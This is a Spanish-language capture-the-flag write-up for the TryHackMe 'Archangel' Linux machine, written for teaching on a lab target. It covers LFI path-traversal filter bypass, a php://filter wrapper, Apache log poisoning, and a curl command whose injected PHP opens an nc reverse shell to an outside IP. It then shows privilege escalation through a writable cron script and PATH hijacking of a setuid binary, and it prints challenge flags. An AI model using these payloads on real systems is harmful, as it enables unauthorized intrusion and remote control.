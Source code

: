 ```yaml
---
title:  CTF TryHackme Archangel
tags:
  - Boot2root
  - Web exploitation
  - Privilege escalation
  - LFI
  - Tryhackme
  - Linux
---
```


<div class="card mb-3">
    <center>
            <img class="card-img-top" src="/theme/img/THM/Archangel/titulo_archangel.jpeg"/>
    </center>
</div>

Máquina: Linux

IP: 10.10.25.190

<!--more-->

## Get a shell

Se realiza un reconocimiento para ver qué puertos tiene abiertos la máquina usando **nmap**:

```bash
nmap -p- 10.10.25.190
```

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/nmap_archangel.png"/>
</div>

La máquina tiene abiertos los puertos: **22/tcp (ssh)** y **80/tcp (http)**. Se analiza el contenido de la página web:

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/web.png"/>
</div>

Se realiza un escaneo con **gobuster** en busca de directorios ocultos en la web, pero nada interesante. Analizando la página se encuentra el nombre de dominio de la página support@**mafialive.thm**, por lo que se asocia este dominio con la IP en el fichero /etc/hosts:

```bash
10.10.25.190 mafialive.thm
```

El Virtual Hosting es un método para hostear múltiples nombres de dominio en un solo servidor, en este caso, esa IP.

Se procede a buscar mafialive.thm en el navegador para ver que esta hosteando y se encuentra la primera flag.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/flag1.png"/>
</div>

Se vuelve a escanear con **gobuster** sobre el dominio mafialive.thm:

```bash
gobuster -u http://mafialive.thm -w /usr/share/wordlist/SecLists/Discovery/Web-Content/common.txt
```

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/dirbuster.png"/>
</div>

Se observa que tiene activado el fichero robots.txt y se accede a ese fichero para ver que directorios/ficheros ocultos puede nombrar:

User-agent: *

Disallow: /test.php

Se accede al contenido y es una página que tiene un botón que al pulsarlo realiza una petición GET sobre el parámetro view y el fichero **/var/www/html/development_testing/mrrobot.php** que muestra el texto "Control is an illusion".

Si intentamos cambiar el fichero por /etc/passwd, nos indica que no está permitido.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/lfi.png"/>
</div>

Parece ser que hace algún tipo de comprobación para que no nos muestre cualquier fichero del sistema. Usando un wrapper PHP se puede obtener el código PHP del fichero test.php y saber que tipo de comprobación realiza.

`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

Se nos mostrará el código en base64, se descodifica:

```php
<?php
    
    //FLAG: thm{explo1t1ng_lf1}
   function containsStr($str, $substr) {
       return strpos($str, $substr) !== false;
   }
   if(isset($_GET["view"])){
       if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
           include $_GET['view'];
       }else{
           echo 'Sorry, Thats not allowed';
       }
   }
?>
```

Se observa en el código que el parametro view no puede contener **../..** y tiene que tener **/var/www/html/development_testing**. El problema es que no se puede retroceder entre directorios usando ../... En cambio si se utiliza el punto (.) como directorio actual para que no contenga el string ".." dos veces seguido, podemos movernos entre directorios de la siguiente manera.

`/var/www/html/development_testing/.././.././.././../etc/passwd` 

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/passwd.png"/>
</div>

Si tenemos acceso a los logs de SSH o Apache, se puede realizar un envenenamiento de logs pudiendo ejecutar un RCE. En este caso, se tiene acceso al fichero **/var/log/apache2/access.log**. Para obtener una shell, se realiza una petición HTTP contra la página y dentro del atributo User-Agent se inyecta código PHP que se ejecute al refrescar la página.

```bash
curl -S -H "User-agent: Mozilla/5.0 <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.11.22.147 4444 >/tmp/f'); ?>" http://mafialive.thm/test.php
```

Si se refresca la página **/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log**, se genera una conexión reversa contra nuestra IP.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/netcat.png"/>
</div>

En la carpeta /home/archangel, se encuentra la flag user.txt.

## Root the machine

Se inspecciona el sistema por varias carpetas y se encuentra en /opt un fichero **helloworld.sh** con los permisos 777 y creado por archangel. Un vector de elevación de privilegios o movimientos laterales es mediante el uso de crontab, se puede ver que ficheros se ejecutan, a que hora y con qué usuario en **/etc/crontab**.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/crontab.png"/>
</div>

Se ve que el usuario archangel ejecuta /opt/helloworld.sh cada minuto. Como se tiene permisos sobre dicho fichero, lo editamos para que nos cree una shell reversa.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/backupfiles.png"/>
</div>

Se consigue el acceso al usuario archangel y ver la siguiente flag.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/netcat2.png"/>
</div>


Se busca si algún fichero tiene el setuid activado para elevar privilegios como root, y se observa que el binario **/home/archangel/secret/backup** tiene el setuid activado.

Se analiza con strings, y se llega a la conclusión que ejecuta **system("cp /home/user/archangel/myfiles/* /opt/backupfiles")**. Como ejecuta el comando cp con system, quiere decir que ejecuta el binario cp del sistema Unix, por lo que se puede crear un **nuevo binario cp en /tmp** y añadir la carpeta /tmp a la variable de entorno $PATH. El contenido del nuevo binario cp es:

```bash
#!/bin/bash

bash -p
```

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/path.png"/>
</div>

Se ejecuta nuevamente el fichero backup mediante crontab y se obtiene una shell como root.

<div class="card mb-3">
    <img class="card-img" src="/theme/img/THM/Archangel/rootflag.png"/>
</div>